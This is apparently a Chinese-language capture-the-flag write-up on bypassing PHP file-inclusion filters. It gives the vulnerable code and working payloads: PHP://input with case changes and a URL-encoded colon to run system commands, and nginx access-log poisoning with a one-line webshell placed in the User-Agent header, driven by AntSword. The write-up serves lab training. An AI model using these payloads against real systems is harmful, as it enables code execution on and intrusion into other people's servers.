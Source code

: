 这一次的过滤有php和data，那就只能用别的伪协议了，压缩的那几个肯定不用了。那只剩一个file了。

但是**file只能够读取本地文件**，我要它有何用啊？

说明这里根本就不是绕过关键词，而是绕过过滤。

思路，更改大小写来绕过。

```
<?php

if(isset($_GET['file'])){
  $file = $_GET['file'];
  $file = str_replace("php", "???", $file);
  $file = str_replace("data", "???", $file);
  include($file);
}else{
  highlight_file(__FILE__);
}
```

payload:?file=PHP://input,然后需要构建POST请求。此处使用到BurpSuite，

构建<?php system("ls");?>输入即可得到文件遍历目录。

这个网站里面有fl0g.php index.php两个文件，当然我们不能直接访问得到。

那就再来一次。

payload:?file=PHP://input，POST：<? php system("tac f*");?>

这次得到了flag



### web81

吊毛，这次把冒号过滤掉了，那就用url编码%3A代替。

```
<?php

if(isset($_GET['file'])){
  $file = $_GET['file'];
  $file = str_replace("php", "???", $file);
  $file = str_replace("data", "???", $file);
  $file = str_replace(":", "???", $file);
  include($file);
}else{
  highlight_file(__FILE__);
}
```

payload:?file=PHP%3A//input,POST:<?php system("ls");?>

然后冒号被过滤了……说明php://input失效了

但还有日志可以用，?file=/var/log/nginx/access.log，发现它读取了很多的UA

那就在UA里面做手脚。抓包，UA插一句话木马，然后对着这个文件用AntSword，刀它！
